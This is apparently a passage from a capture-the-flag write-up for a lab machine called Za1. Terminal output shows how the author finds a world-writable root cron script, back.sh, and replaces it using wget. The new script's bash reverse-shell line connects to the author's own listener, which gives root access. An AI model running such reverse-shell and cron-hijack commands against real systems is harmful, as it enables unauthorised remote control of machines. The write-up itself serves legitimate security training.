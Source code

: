 ```bash
drwx------ 2 za_1 za_1 4096 Jul 26 07:08 .cache
drwx------ 3 za_1 za_1 4096 Jul 26 07:08 .gnupg
-rw-r--r-- 1 za_1 za_1  807 Apr  4  2018 .profile
drwxr-xr-x 2 za_1 za_1 4096 Jul 26 09:48 .root
drwx------ 2 za_1 za_1 4096 Jul 26 07:07 .ssh
-rw-r--r-- 1 za_1 za_1    0 Jul 26 07:17 .sudo_as_admin_successful
-rw------- 1 za_1 za_1  991 Jul 26 07:30 .viminfo
-rw-r--r-- 1 za_1 za_1   23 Jul 26 09:23 user.txt
za_1@za_1:~$ cd .root
za_1@za_1:~/.root$ ls -al
total 12
drwxr-xr-x 2 za_1 za_1 4096 Jul 26 09:48 .
drwxr-xr-x 6 za_1 za_1 4096 Aug 22 08:49 ..
-rwxrwxrwx 1 root root  117 Jul 26 09:48 back.sh
za_1@za_1:~/.root$ cat back.sh 
#!/bin/bash

cp /var/www/html/usr/64c0dcaf26f51.db /var/www/html/sql/new.sql

bash -i >&/dev/tcp/10.0.2.18/999 0>&1
za_1@za_1:~/.root$
```
{: .nolineno}
{: .nolineno}

This `back.sh` file must be executed through root from cron set for verification I ran pspy64 Tool and I was write then I exchanged that file with my own reverse shell file .

 

![Untitled](Za1/Untitled%208.png)

my `back.sh` file looks like this no new modification only changed the IP and the port and saved it and let it run →

```bash
za_1@za_1:~/.root$ wget http://10.0.2.60/back.sh
--2023-10-08 06:21:10--  http://10.0.2.60/back.sh
Connecting to 10.0.2.60:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 118 [text/x-sh]
Saving to: 'back.sh.1'

back.sh.1             0%[                    ]       0  --.-KB/back.sh.1           100%[===================>]     118  --.-KB/s    in 0s      

2023-10-08 06:21:10 (22.4 MB/s) - 'back.sh.1' saved [118/118]

za_1@za_1:~/.root$
za_1@za_1:~/.root$ ls
back.sh  back.sh.1
za_1@za_1:~/.root$ rm back.sh
za_1@za_1:~/.root$ mv back.sh.1 back.sh
za_1@za_1:~/.root$ ls -al
total 12
drwxr-xr-x 2 za_1 za_1 4096 Oct  8 06:21 .
drwxr-xr-x 7 za_1 za_1 4096 Oct  8 06:18 ..
-rw-r--r-- 1 za_1 za_1  118 Oct  8 06:20 back.sh
za_1@za_1:~/.root$
za_1@za_1:~/.root$ cat back.sh 
#!/bin/bash

cp /var/www/html/usr/64c0dcaf26f51.db /var/www/html/sql/new.sql

bash -i >&/dev/tcp/10.0.2.60/2222 0>&1
```